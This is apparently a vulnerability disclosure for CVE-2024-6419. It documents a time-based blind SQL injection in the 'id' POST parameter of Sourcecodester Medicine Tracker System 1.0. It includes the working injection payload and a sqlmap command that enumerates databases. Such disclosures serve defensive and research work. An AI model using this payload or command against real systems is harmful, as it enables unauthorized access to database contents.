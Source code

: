 # SQL Injection vulnerability was discovered from Sourcecodester Medicine Tracker System (Master.php)
## CVE-2024-6419
Affected Project: Sourcecodester Medicine Tracker System 1.0

Official Website: [https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

Version: 1.0

Related Code file: /php-mts/classes/Master.php

Injection parameter: POST parameter 'id' is vulnerable

## Demonstration

Below is /php-mts/app/?page=medicines/manage_medicine:

![image](https://github.com/jadu101/CVE/assets/76433661/d1cb5f99-123f-400e-b46d-b22e842354b3)

Let's intercept the the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/f99c9759-5e52-4b81-8413-f8904ff9e1bd)

After saving the request as master.txt, we will run sqlmap towards it:

![image](https://github.com/jadu101/CVE/assets/76433661/cc549434-f42c-4d68-ae10-8daa877d453a)

POST parameter 'id' is found to be vulnerable. Below is the payload used:

```
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 8594 FROM (SELECT(SLEEP(5)))EJYb) AND 'npqn'='npqn&name=teest&description=test
---
```

![image](https://github.com/jadu101/CVE/assets/76433661/e7dd397c-6568-4b24-b360-682bc2d8a7a1)

`sqlmap -r master.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/58cab1f5-fc42-4a9f-b0e3-c9f4ba03ecaa)

